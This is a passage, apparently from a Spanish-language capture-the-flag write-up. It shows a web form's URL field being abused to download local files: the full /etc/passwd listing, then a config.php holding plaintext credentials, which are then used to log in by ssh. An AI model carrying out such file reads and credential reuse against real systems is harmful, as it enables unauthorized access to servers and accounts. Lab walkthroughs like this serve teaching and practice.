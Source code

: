 Vemos varias cosas interesantes, pero si ponemos `/index.php` veremos un recuadro pidiendo una `URL`...

Si en ese espacio metemos por ejemplo `/etc/passwd` se nos descargara el archivo...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
kira:x:1000:1000:kira:/home/kira:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
bassam:x:1001:1001::/home/bassam:/bin/sh
test:x:1002:1002::/home/test:/bin/sh
```

Pero si metemos el `/config.php` que nos encontramos con `gobuster` el cual puede contener credenciales, tambien nos lo descargara...

```php
<?php
$user='test';
$pass='test123';
?>
```

Por lo que vemos nos da unas credenciales...

Si pobramos eso a conectarnos por `ssh` veremos que son las credenciales validas...

```shell
ssh test@<IP>
```
